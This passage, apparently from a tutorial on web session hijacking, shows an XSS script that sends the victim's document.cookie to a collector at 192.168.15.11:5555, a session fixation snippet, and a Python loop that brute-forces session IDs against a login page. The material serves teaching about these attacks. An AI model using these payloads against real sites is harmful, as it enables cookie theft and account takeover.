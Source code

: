 **Example Code:**
```html
<script>
document.location='http://192.168.15.11:5555/capture?cookie=' + document.cookie;
</script>
```

### 3. **Session Fixation**
In this attack, the hacker tricks the user into using a specific session ID that the attacker already has access to.

**Example Code:**
```python
import requests

# Attacker sets a known session ID in the victim's browser
session_id = 'KNOWN_SESSION_ID'
url = 'http://example.com/login'
cookies = {'session_id': session_id}
response = requests.get(url, cookies=cookies)
```

## Fuzzing for Session Hijacking Vulnerabilities

Fuzzing is an automated software testing technique that involves inputting large amounts of random data ("fuzz") to a program in an attempt to find security vulnerabilities.

**Steps to Fuzz Session Management:**

1. **Identify the Target**: Determine where the web application handles session management.
2. **Generate Fuzz Data**: Create variations of session IDs and cookies.
3. **Monitor the Response**: Look for changes in application behavior that suggest improper handling of session data.

**Example Fuzzing Code:**
```python
import requests
from itertools import product
from string import ascii_lowercase, digits

# Generate potential session IDs
def generate_session_ids(length=10):
    chars = ascii_lowercase + digits
    for session_id in product(chars, repeat=length):
        yield ''.join(session_id)

# Fuzzing the session management
target_url = 'http://192.168.15.11:5555/login'
for session_id in generate_session_ids():
    cookies = {'session_id': session_id}
    response = requests.get(target_url, cookies=cookies)
    if 'Welcome' in response.text:
        print(f"Potential vulnerable session ID found: {session_id}")
```
